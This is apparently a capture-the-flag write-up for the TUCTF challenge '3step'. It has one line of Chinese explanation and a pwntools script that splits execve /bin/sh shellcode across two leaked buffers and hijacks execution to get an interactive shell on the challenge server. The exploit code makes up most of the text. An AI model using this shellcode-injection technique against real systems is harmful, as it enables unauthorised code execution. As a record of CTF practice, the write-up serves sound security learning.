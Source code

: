 ### 3step

> [附件](./3step)

程序给了两个buffer，分别给了地址，可以将shellcode分成两部分

[Exploit script:](./3.py)

```python
#!/usr/bin/env python
from pwn import *
context.log_level='debug'
p = remote('chal.tuctf.com',30504)
#p = process('./3step')

p.recvuntil('snacks\n')
buf1=int(p.recvline(),16)
buf2 = int(p.recvline(),16)

shellcode1 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68"

shellcode1 += "\xbe"+p32(buf2)+'\xff\xe6'

shellcode2 = "\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"



p.recvuntil('1: ')
#gdb.attach(p)
p.sendline(shellcode1)
p.recvuntil('2: ')
p.sendline(shellcode2)
p.recvuntil('3: ')
p.sendline(p32(buf1))

p.interactive()
```

